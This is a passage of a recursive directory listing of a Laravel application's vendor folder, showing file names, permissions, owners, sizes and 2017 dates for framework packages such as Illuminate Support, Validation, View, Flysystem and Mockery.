/var/www/laravel/vendor/laravel/framework/src/Illuminate/Support:
total 180K
drwxr-xr-x  6 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  995 Apr  3  2017 AggregateServiceProvider.php
-rwxr-xr-x  1 www-data www-data  13K Apr  3  2017 Arr.php
-rw-r--r--  1 www-data www-data  36K Apr  3  2017 Collection.php
-rw-r--r--  1 www-data www-data 2.2K Apr  3  2017 Composer.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Debug
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Facades
-rwxr-xr-x  1 www-data www-data 3.8K Apr  3  2017 Fluent.php
-rw-r--r--  1 www-data www-data 1.4K Apr  3  2017 HigherOrderCollectionProxy.php
-rw-r--r--  1 www-data www-data  699 Apr  3  2017 HtmlString.php
-rwxr-xr-x  1 www-data www-data 3.3K Apr  3  2017 Manager.php
-rwxr-xr-x  1 www-data www-data 8.7K Apr  3  2017 MessageBag.php
-rwxr-xr-x  1 www-data www-data 3.3K Apr  3  2017 NamespacedItemResolver.php
-rwxr-xr-x  1 www-data www-data 2.4K Apr  3  2017 Pluralizer.php
-rwxr-xr-x  1 www-data www-data 6.6K Apr  3  2017 ServiceProvider.php
-rw-r--r--  1 www-data www-data  20K Apr  3  2017 Str.php
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Testing
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Traits
-rw-r--r--  1 www-data www-data 2.4K Apr  3  2017 ViewErrorBag.php
-rw-r--r--  1 www-data www-data 1.3K Apr  3  2017 composer.json
-rwxr-xr-x  1 www-data www-data  22K Apr  3  2017 helpers.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Support/Debug:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  555 Apr  3  2017 Dumper.php
-rw-r--r-- 1 www-data www-data  918 Apr  3  2017 HtmlDumper.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Support/Facades:
total 148K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x 1 www-data www-data  939 Apr  3  2017 App.php
-rwxr-xr-x 1 www-data www-data  755 Apr  3  2017 Artisan.php
-rwxr-xr-x 1 www-data www-data 1.5K Apr  3  2017 Auth.php
-rwxr-xr-x 1 www-data www-data  381 Apr  3  2017 Blade.php
-rw-r--r-- 1 www-data www-data  426 Apr  3  2017 Broadcast.php
-rw-r--r-- 1 www-data www-data  614 Apr  3  2017 Bus.php
-rwxr-xr-x 1 www-data www-data  341 Apr  3  2017 Cache.php
-rwxr-xr-x 1 www-data www-data  305 Apr  3  2017 Config.php
-rwxr-xr-x 1 www-data www-data  834 Apr  3  2017 Cookie.php
-rwxr-xr-x 1 www-data www-data  310 Apr  3  2017 Crypt.php
-rwxr-xr-x 1 www-data www-data  344 Apr  3  2017 DB.php
-rwxr-xr-x 1 www-data www-data  618 Apr  3  2017 Event.php
-rwxr-xr-x 1 www-data www-data 5.0K Apr  3  2017 Facade.php
-rwxr-xr-x 1 www-data www-data  306 Apr  3  2017 File.php
-rw-r--r-- 1 www-data www-data  383 Apr  3  2017 Gate.php
-rwxr-xr-x 1 www-data www-data  304 Apr  3  2017 Hash.php
-rwxr-xr-x 1 www-data www-data  666 Apr  3  2017 Input.php
-rwxr-xr-x 1 www-data www-data  312 Apr  3  2017 Lang.php
-rwxr-xr-x 1 www-data www-data  339 Apr  3  2017 Log.php
-rwxr-xr-x 1 www-data www-data  518 Apr  3  2017 Mail.php
-rw-r--r-- 1 www-data www-data  617 Apr  3  2017 Notification.php
-rwxr-xr-x 1 www-data www-data 1.1K Apr  3  2017 Password.php
-rwxr-xr-x 1 www-data www-data  559 Apr  3  2017 Queue.php
-rwxr-xr-x 1 www-data www-data  310 Apr  3  2017 Redirect.php
-rwxr-xr-x 1 www-data www-data  348 Apr  3  2017 Redis.php
-rwxr-xr-x 1 www-data www-data  302 Apr  3  2017 Request.php
-rwxr-xr-x 1 www-data www-data  423 Apr  3  2017 Response.php
-rwxr-xr-x 1 www-data www-data 1.2K Apr  3  2017 Route.php
-rwxr-xr-x 1 www-data www-data  690 Apr  3  2017 Schema.php
-rwxr-xr-x 1 www-data www-data  346 Apr  3  2017 Session.php
-rw-r--r-- 1 www-data www-data  735 Apr  3  2017 Storage.php
-rwxr-xr-x 1 www-data www-data  302 Apr  3  2017 URL.php
-rwxr-xr-x 1 www-data www-data  312 Apr  3  2017 Validator.php
-rwxr-xr-x 1 www-data www-data  296 Apr  3  2017 View.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Support/Testing:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 Fakes

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Support/Testing/Fakes:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.8K Apr  3  2017 BusFake.php
-rw-r--r-- 1 www-data www-data 4.3K Apr  3  2017 EventFake.php
-rw-r--r-- 1 www-data www-data 4.2K Apr  3  2017 MailFake.php
-rw-r--r-- 1 www-data www-data 4.8K Apr  3  2017 NotificationFake.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 PendingMailFake.php
-rw-r--r-- 1 www-data www-data 5.3K Apr  3  2017 QueueFake.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Support/Traits:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 CapsuleManagerTrait.php
-rw-r--r-- 1 www-data www-data 2.0K Apr  3  2017 Macroable.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Translation:
total 48K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 ArrayLoader.php
-rwxr-xr-x  1 www-data www-data 3.6K Apr  3  2017 FileLoader.php
-rwxr-xr-x  1 www-data www-data  655 Apr  3  2017 LoaderInterface.php
-rwxr-xr-x  1 www-data www-data 6.8K Apr  3  2017 MessageSelector.php
-rwxr-xr-x  1 www-data www-data 1.5K Apr  3  2017 TranslationServiceProvider.php
-rwxr-xr-x  1 www-data www-data  12K Apr  3  2017 Translator.php
-rwxr-xr-x  1 www-data www-data  877 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Validation:
total 96K
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Concerns
-rwxr-xr-x  1 www-data www-data 3.6K Apr  3  2017 DatabasePresenceVerifier.php
-rwxr-xr-x  1 www-data www-data 6.9K Apr  3  2017 Factory.php
-rwxr-xr-x  1 www-data www-data  842 Apr  3  2017 PresenceVerifierInterface.php
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 Rule.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Rules
-rw-r--r--  1 www-data www-data  128 Apr  3  2017 UnauthorizedException.php
-rw-r--r--  1 www-data www-data 1.8K Apr  3  2017 ValidatesWhenResolvedTrait.php
-rw-r--r--  1 www-data www-data 2.8K Apr  3  2017 ValidationData.php
-rw-r--r--  1 www-data www-data 1.1K Apr  3  2017 ValidationException.php
-rw-r--r--  1 www-data www-data 6.5K Apr  3  2017 ValidationRuleParser.php
-rwxr-xr-x  1 www-data www-data 1.8K Apr  3  2017 ValidationServiceProvider.php
-rwxr-xr-x  1 www-data www-data  27K Apr  3  2017 Validator.php
-rwxr-xr-x  1 www-data www-data 1.1K Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Validation/Concerns:
total 76K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  12K Apr  3  2017 FormatsMessages.php
-rw-r--r-- 1 www-data www-data  11K Apr  3  2017 ReplacesAttributes.php
-rw-r--r-- 1 www-data www-data  42K Apr  3  2017 ValidatesAttributes.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Validation/Rules:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.4K Apr  3  2017 Dimensions.php
-rw-r--r-- 1 www-data www-data 2.9K Apr  3  2017 Exists.php
-rw-r--r-- 1 www-data www-data  629 Apr  3  2017 In.php
-rw-r--r-- 1 www-data www-data  642 Apr  3  2017 NotIn.php
-rw-r--r-- 1 www-data www-data 3.5K Apr  3  2017 Unique.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/View:
total 76K
drwxr-xr-x  6 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Compilers
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Concerns
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Engines
-rwxr-xr-x  1 www-data www-data  13K Apr  3  2017 Factory.php
-rwxr-xr-x  1 www-data www-data 6.5K Apr  3  2017 FileViewFinder.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Middleware
-rwxr-xr-x  1 www-data www-data 9.1K Apr  3  2017 View.php
-rwxr-xr-x  1 www-data www-data 1.5K Apr  3  2017 ViewFinderInterface.php
-rw-r--r--  1 www-data www-data  528 Apr  3  2017 ViewName.php
-rwxr-xr-x  1 www-data www-data 4.0K Apr  3  2017 ViewServiceProvider.php
-rw-r--r--  1 www-data www-data  968 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/View/Compilers:
total 32K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 9.0K Apr  3  2017 BladeCompiler.php
-rwxr-xr-x 1 www-data www-data 1.8K Apr  3  2017 Compiler.php
-rwxr-xr-x 1 www-data www-data  560 Apr  3  2017 CompilerInterface.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 Concerns

/var/www/laravel/vendor/laravel/framework/src/Illuminate/View/Compilers/Concerns:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.7K Apr  3  2017 CompilesAuthorizations.php
-rw-r--r-- 1 www-data www-data  413 Apr  3  2017 CompilesComments.php
-rw-r--r-- 1 www-data www-data 1017 Apr  3  2017 CompilesComponents.php
-rw-r--r-- 1 www-data www-data 2.1K Apr  3  2017 CompilesConditionals.php
-rw-r--r-- 1 www-data www-data 2.9K Apr  3  2017 CompilesEchos.php
-rw-r--r-- 1 www-data www-data 1.6K Apr  3  2017 CompilesIncludes.php
-rw-r--r-- 1 www-data www-data  505 Apr  3  2017 CompilesInjections.php
-rw-r--r-- 1 www-data www-data 2.5K Apr  3  2017 CompilesLayouts.php
-rw-r--r-- 1 www-data www-data 4.1K Apr  3  2017 CompilesLoops.php
-rw-r--r-- 1 www-data www-data  749 Apr  3  2017 CompilesRawPhp.php
-rw-r--r-- 1 www-data www-data 1.3K Apr  3  2017 CompilesStacks.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 CompilesTranslations.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/View/Concerns:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.8K Apr  3  2017 ManagesComponents.php
-rw-r--r-- 1 www-data www-data 5.0K Apr  3  2017 ManagesEvents.php
-rw-r--r-- 1 www-data www-data 4.7K Apr  3  2017 ManagesLayouts.php
-rw-r--r-- 1 www-data www-data 2.1K Apr  3  2017 ManagesLoops.php
-rw-r--r-- 1 www-data www-data 4.3K Apr  3  2017 ManagesStacks.php
-rw-r--r-- 1 www-data www-data  771 Apr  3  2017 ManagesTranslations.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/View/Engines:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x 1 www-data www-data 2.6K Apr  3  2017 CompilerEngine.php
-rwxr-xr-x 1 www-data www-data  362 Apr  3  2017 Engine.php
-rwxr-xr-x 1 www-data www-data  273 Apr  3  2017 EngineInterface.php
-rwxr-xr-x 1 www-data www-data 1.3K Apr  3  2017 EngineResolver.php
-rw-r--r-- 1 www-data www-data  343 Apr  3  2017 FileEngine.php
-rwxr-xr-x 1 www-data www-data 1.7K Apr  3  2017 PhpEngine.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/View/Middleware:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 ShareErrorsFromSession.php

/var/www/laravel/vendor/laravel/tinker:
total 24K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.1K Dec 30  2016 LICENSE.txt
-rw-r--r-- 1 www-data www-data 1.3K Dec 30  2016 README.md
-rw-r--r-- 1 www-data www-data 1.1K Dec 30  2016 composer.json
drwxr-xr-x 3 www-data www-data 4.0K Dec 30  2016 src

/var/www/laravel/vendor/laravel/tinker/src:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Dec 30  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Dec 30  2016 Console
-rw-r--r-- 1 www-data www-data 2.3K Dec 30  2016 TinkerCaster.php
-rw-r--r-- 1 www-data www-data  755 Dec 30  2016 TinkerServiceProvider.php

/var/www/laravel/vendor/laravel/tinker/src/Console:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Dec 30  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Dec 30  2016 ..
-rw-r--r-- 1 www-data www-data 2.5K Dec 30  2016 TinkerCommand.php

/var/www/laravel/vendor/league:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 flysystem

/var/www/laravel/vendor/league/flysystem:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.1K Mar 22  2017 LICENSE
-rw-r--r-- 1 www-data www-data 2.1K Mar 22  2017 composer.json
drwxr-xr-x 5 www-data www-data 4.0K Mar 22  2017 src

/var/www/laravel/vendor/league/flysystem/src:
total 120K
drwxr-xr-x 5 www-data www-data 4.0K Mar 22  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Mar 22  2017 Adapter
-rw-r--r-- 1 www-data www-data 2.6K Mar 22  2017 AdapterInterface.php
-rw-r--r-- 1 www-data www-data 2.0K Mar 22  2017 Config.php
-rw-r--r-- 1 www-data www-data  851 Mar 22  2017 ConfigAwareTrait.php
-rw-r--r-- 1 www-data www-data  531 Mar 22  2017 Directory.php
-rw-r--r-- 1 www-data www-data   82 Mar 22  2017 Exception.php
-rw-r--r-- 1 www-data www-data 3.9K Mar 22  2017 File.php
-rw-r--r-- 1 www-data www-data  699 Mar 22  2017 FileExistsException.php
-rw-r--r-- 1 www-data www-data  691 Mar 22  2017 FileNotFoundException.php
-rw-r--r-- 1 www-data www-data 9.6K Mar 22  2017 Filesystem.php
-rw-r--r-- 1 www-data www-data 7.4K Mar 22  2017 FilesystemInterface.php
-rw-r--r-- 1 www-data www-data  184 Mar 22  2017 FilesystemNotFoundException.php
-rw-r--r-- 1 www-data www-data 2.5K Mar 22  2017 Handler.php
-rw-r--r-- 1 www-data www-data 8.0K Mar 22  2017 MountManager.php
-rw-r--r-- 1 www-data www-data  773 Mar 22  2017 NotSupportedException.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 22  2017 Plugin
-rw-r--r-- 1 www-data www-data  344 Mar 22  2017 PluginInterface.php
-rw-r--r-- 1 www-data www-data 1.6K Mar 22  2017 ReadInterface.php
-rw-r--r-- 1 www-data www-data  120 Mar 22  2017 RootViolationException.php
-rw-r--r-- 1 www-data www-data  744 Mar 22  2017 SafeStorage.php
-rw-r--r-- 1 www-data www-data  345 Mar 22  2017 UnreadableFileException.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 22  2017 Util
-rw-r--r-- 1 www-data www-data 7.2K Mar 22  2017 Util.php

/var/www/laravel/vendor/league/flysystem/src/Adapter:
total 72K
drwxr-xr-x 3 www-data www-data 4.0K Mar 22  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 22  2017 ..
-rw-r--r-- 1 www-data www-data 1.3K Mar 22  2017 AbstractAdapter.php
-rw-r--r-- 1 www-data www-data  13K Mar 22  2017 AbstractFtpAdapter.php
-rw-r--r-- 1 www-data www-data  13K Mar 22  2017 Ftp.php
-rw-r--r-- 1 www-data www-data  854 Mar 22  2017 Ftpd.php
-rw-r--r-- 1 www-data www-data  12K Mar 22  2017 Local.php
-rw-r--r-- 1 www-data www-data 2.3K Mar 22  2017 NullAdapter.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 22  2017 Polyfill
-rw-r--r-- 1 www-data www-data  126 Mar 22  2017 SynologyFtp.php

/var/www/laravel/vendor/league/flysystem/src/Adapter/Polyfill:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Mar 22  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 22  2017 ..
-rw-r--r-- 1 www-data www-data  750 Mar 22  2017 NotSupportingVisibilityTrait.php
-rw-r--r-- 1 www-data www-data 1.1K Mar 22  2017 StreamedCopyTrait.php
-rw-r--r-- 1 www-data www-data  893 Mar 22  2017 StreamedReadingTrait.php
-rw-r--r-- 1 www-data www-data  137 Mar 22  2017 StreamedTrait.php
-rw-r--r-- 1 www-data www-data 1.6K Mar 22  2017 StreamedWritingTrait.php

/var/www/laravel/vendor/league/flysystem/src/Plugin:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Mar 22  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 22  2017 ..
-rw-r--r-- 1 www-data www-data  484 Mar 22  2017 AbstractPlugin.php
-rw-r--r-- 1 www-data www-data  677 Mar 22  2017 EmptyDir.php
-rw-r--r-- 1 www-data www-data  964 Mar 22  2017 ForcedCopy.php
-rw-r--r-- 1 www-data www-data  981 Mar 22  2017 ForcedRename.php
-rw-r--r-- 1 www-data www-data 1.1K Mar 22  2017 GetWithMetadata.php
-rw-r--r-- 1 www-data www-data  702 Mar 22  2017 ListFiles.php
-rw-r--r-- 1 www-data www-data  669 Mar 22  2017 ListPaths.php
-rw-r--r-- 1 www-data www-data 1.5K Mar 22  2017 ListWith.php
-rw-r--r-- 1 www-data www-data 2.3K Mar 22  2017 PluggableTrait.php
-rw-r--r-- 1 www-data www-data  183 Mar 22  2017 PluginNotFoundException.php

/var/www/laravel/vendor/league/flysystem/src/Util:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Mar 22  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 22  2017 ..
-rw-r--r-- 1 www-data www-data 2.3K Mar 22  2017 ContentListingFormatter.php
-rw-r--r-- 1 www-data www-data 8.1K Mar 22  2017 MimeType.php
-rw-r--r-- 1 www-data www-data  584 Mar 22  2017 StreamHasher.php

/var/www/laravel/vendor/mockery:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  7 www-data www-data 4.0K Apr  9  2017 mockery

/var/www/laravel/vendor/mockery/mockery:
total 84K
drwxr-xr-x 7 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  137 Feb 28  2017 .gitignore
-rw-r--r-- 1 www-data www-data  335 Feb 28  2017 .php_cs
-rw-r--r-- 1 www-data www-data  682 Feb 28  2017 .scrutinizer.yml
-rw-r--r-- 1 www-data www-data   14 Feb 28  2017 .styleci.yml
-rw-r--r-- 1 www-data www-data  550 Feb 28  2017 .travis.yml
-rw-r--r-- 1 www-data www-data 1.7K Feb 28  2017 CHANGELOG.md
-rw-r--r-- 1 www-data www-data 3.4K Feb 28  2017 CONTRIBUTING.md
-rw-r--r-- 1 www-data www-data 1.5K Feb 28  2017 LICENSE
-rw-r--r-- 1 www-data www-data 2.6K Feb 28  2017 README.md
-rw-r--r-- 1 www-data www-data 1.5K Feb 28  2017 composer.json
drwxr-xr-x 5 www-data www-data 4.0K Feb 28  2017 docs
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 examples
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 library
-rw-r--r-- 1 www-data www-data  12K Feb 28  2017 package.xml
-rw-r--r-- 1 www-data www-data 1.5K Feb 28  2017 phpunit.xml.dist
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 tests
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 travis

/var/www/laravel/vendor/mockery/mockery/docs:
total 52K
drwxr-xr-x 5 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data    7 Feb 28  2017 .gitignore
-rw-r--r-- 1 www-data www-data 6.7K Feb 28  2017 Makefile
-rw-r--r-- 1 www-data www-data   84 Feb 28  2017 README.md
-rw-r--r-- 1 www-data www-data 8.3K Feb 28  2017 conf.py
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 cookbook
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 getting_started
-rw-r--r-- 1 www-data www-data 1.8K Feb 28  2017 index.rst
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 reference

/var/www/laravel/vendor/mockery/mockery/docs/cookbook:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data  757 Feb 28  2017 default_expectations.rst
-rw-r--r-- 1 www-data www-data  394 Feb 28  2017 detecting_mock_objects.rst
-rw-r--r-- 1 www-data www-data  154 Feb 28  2017 index.rst
-rw-r--r-- 1 www-data www-data  127 Feb 28  2017 map.rst.inc
-rw-r--r-- 1 www-data www-data 3.1K Feb 28  2017 mocking_hard_dependencies.rst

/var/www/laravel/vendor/mockery/mockery/docs/getting_started:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data  136 Feb 28  2017 index.rst
-rw-r--r-- 1 www-data www-data 2.1K Feb 28  2017 installation.rst
-rw-r--r-- 1 www-data www-data  116 Feb 28  2017 map.rst.inc
-rw-r--r-- 1 www-data www-data 1.8K Feb 28  2017 simple_example.rst
-rw-r--r-- 1 www-data www-data  730 Feb 28  2017 upgrading.rst

/var/www/laravel/vendor/mockery/mockery/docs/reference:
total 92K
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data 6.0K Feb 28  2017 argument_validation.rst
-rw-r--r-- 1 www-data www-data 1.7K Feb 28  2017 demeter_chains.rst
-rw-r--r-- 1 www-data www-data 7.8K Feb 28  2017 expectations.rst
-rw-r--r-- 1 www-data www-data 1.1K Feb 28  2017 final_methods_classes.rst
-rw-r--r-- 1 www-data www-data  339 Feb 28  2017 index.rst
-rw-r--r-- 1 www-data www-data  805 Feb 28  2017 instance_mocking.rst
-rw-r--r-- 1 www-data www-data  688 Feb 28  2017 magic_methods.rst
-rw-r--r-- 1 www-data www-data  628 Feb 28  2017 map.rst.inc
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 mockery
-rw-r--r-- 1 www-data www-data 3.0K Feb 28  2017 object_recording.rst
-rw-r--r-- 1 www-data www-data 3.8K Feb 28  2017 partial_mocks.rst
-rw-r--r-- 1 www-data www-data 3.0K Feb 28  2017 pass_by_reference_behaviours.rst
-rw-r--r-- 1 www-data www-data 3.8K Feb 28  2017 phpunit_integration.rst
-rw-r--r-- 1 www-data www-data  740 Feb 28  2017 public_properties.rst
-rw-r--r-- 1 www-data www-data  548 Feb 28  2017 public_static_properties.rst
-rw-r--r-- 1 www-data www-data 3.1K Feb 28  2017 quick_examples.rst
-rw-r--r-- 1 www-data www-data 8.8K Feb 28  2017 startup_methods.rst

/var/www/laravel/vendor/mockery/mockery/docs/reference/mockery:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data 2.5K Feb 28  2017 configuration.rst
-rw-r--r-- 1 www-data www-data 2.7K Feb 28  2017 exceptions.rst
-rw-r--r-- 1 www-data www-data 2.3K Feb 28  2017 gotchas.rst
-rw-r--r-- 1 www-data www-data  119 Feb 28  2017 index.rst
-rw-r--r-- 1 www-data www-data  795 Feb 28  2017 reserved_method_names.rst

/var/www/laravel/vendor/mockery/mockery/examples:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 starship

/var/www/laravel/vendor/mockery/mockery/examples/starship:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 ..
-rw-r--r-- 1 www-data www-data  200 Feb 28  2017 Bootstrap.php
-rw-r--r-- 1 www-data www-data  615 Feb 28  2017 Starship.php
-rw-r--r-- 1 www-data www-data  719 Feb 28  2017 StarshipTest.php
-rw-r--r-- 1 www-data www-data  321 Feb 28  2017 phpunit.xml

/var/www/laravel/vendor/mockery/mockery/library:
total 32K
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 8 www-data www-data 4.0K Feb 28  2017 Mockery
-rw-r--r-- 1 www-data www-data  20K Feb 28  2017 Mockery.php

/var/www/laravel/vendor/mockery/mockery/library/Mockery:
total 164K
drwxr-xr-x 8 www-data www-data 4.0K Feb 28  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 Adapter
-rw-r--r-- 1 www-data www-data 3.2K Feb 28  2017 CompositeExpectation.php
-rw-r--r-- 1 www-data www-data 3.7K Feb 28  2017 Configuration.php
-rw-r--r-- 1 www-data www-data  15K Feb 28  2017 Container.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 CountValidator
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 Exception
-rw-r--r-- 1 www-data www-data  762 Feb 28  2017 Exception.php
-rw-r--r-- 1 www-data www-data  19K Feb 28  2017 Expectation.php
-rw-r--r-- 1 www-data www-data 5.2K Feb 28  2017 ExpectationDirector.php
-rw-r--r-- 1 www-data www-data  963 Feb 28  2017 ExpectationInterface.php
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 Generator
-rw-r--r-- 1 www-data www-data 6.8K Feb 28  2017 Instantiator.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 Loader
-rw-r--r-- 1 www-data www-data 4.6K Feb 28  2017 Loader.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 28  2017 Matcher
-rw-r--r-- 1 www-data www-data  357 Feb 28  2017 MethodCall.php
-rw-r--r-- 1 www-data www-data  22K Feb 28  2017 Mock.php
-rw-r--r-- 1 www-data www-data 5.8K Feb 28  2017 MockInterface.php
-rw-r--r-- 1 www-data www-data  650 Feb 28  2017 ReceivedMethodCalls.php
-rw-r--r-- 1 www-data www-data 3.0K Feb 28  2017 Recorder.php
-rw-r--r-- 1 www-data www-data 1.2K Feb 28  2017 Undefined.php
-rw-r--r-- 1 www-data www-data 2.4K Feb 28  2017 VerificationDirector.php
-rw-r--r-- 1 www-data www-data  282 Feb 28  2017 VerificationExpectation.php

/var/www/laravel/vendor/mockery/mockery/library/Mockery/Adapter:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Feb 28  2017 .
